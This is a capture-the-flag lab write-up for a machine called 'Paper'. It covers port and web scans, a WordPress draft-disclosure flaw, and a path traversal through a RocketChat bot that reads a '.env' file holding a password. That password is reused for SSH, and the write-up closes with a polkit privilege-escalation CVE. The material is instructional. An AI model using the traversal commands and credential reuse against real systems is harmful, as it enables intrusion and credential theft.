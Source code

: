# Paper

- Target Machine: 10.10.11.143

## Enumeration

### Nmap scan
```log
Nmap scan report for 10.10.11.143
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```

### Nikto scan

```log
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.143
+ Target Hostname:    10.10.11.143
+ Target Port:        80
+ Start Time:         2022-02-19 15:59:16 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ Server leaks inodes via ETags, header found with file /, fields: 0x30c0b 0x5c5c7fdeec240
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/7.2.24
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

## Foothold

In the Nikto scan, we can see the odd header x-backend-server with the hoste `office.paper`. After adding it to the `/etc/hosts` file, we can check the website.

After running WP-Scan, we find out that this WP version is vulnerable

```log
[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 ```

 After a quick search, we find out [this vulnerability](https://www.exploit-db.com/exploits/47690), which leaks this hidden content:


```log
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

After adding `chat.office.paper` to the `etc/hosts` file, we can check out the found link.

----------

## Getting a shell through SSH

After exploring the RocketChat service, we find out that there'a bot named `recyclops` hosted on Dwight's machine. This bot can be used by sending commands throught the private RocketChat. In particular, this bot has access to the `cat` and `ls` commands, giving us the ability to explore Dwight's home directory.

![Screenshot 1](.img/screenshot1.png)

After exploring a bit, we find out that the statement _"For security reasons, the access is limited to the Sales folder."_ is indeed wrong: we can access every directory through the use of **relative paths**. For example, we can access the file `../hubot/.env`, containing the secret leaked by `prisonermike`.

This is the full log of the chat:

```log
[ME] recyclops list .

[RECYCLOPS]
Fetching the directory listing of .
total 0
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 281 Feb 6 08:03 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
5:52 PM

[ME] recyclops list ..

[RECYCLOPS]
Fetching the directory listing of ..
total 32
drwx------ 11 dwight dwight 281 Feb 6 08:03 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 08:56 .ssh
-r-------- 1 dwight dwight 33 Feb 19 11:48 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 07:09 .vim

[ME] recyclops list ../hubot

[RECYCLOPS]
Fetching the directory listing of ../hubot
total 168
drwx------ 8 dwight dwight 4096 Sep 16 07:57 .
drwx------ 11 dwight dwight 281 Feb 6 08:03 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 50945 Feb 19 11:52 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 07:34 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 07:26 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock

[ME] recyclops file ../hubot/.env

[RECYCLOPS]
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Since we know that this bot was made by Dwight, we can try accessing the machine through SSH using `dwight@paper` and the password `Queenofblad3s!23` that we just found, which indeed works!

----------

## Priviledge escalation

After running `linpeas.sh`, we find out that this machine is vulnerable to [CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/). We can run a [script](https://www.exploit-db.com/exploits/50011) given as PoC to this CVE to create a temporary user, access it with `su - hacked` using the password `password` and then spawn a root shell using `sudo su`.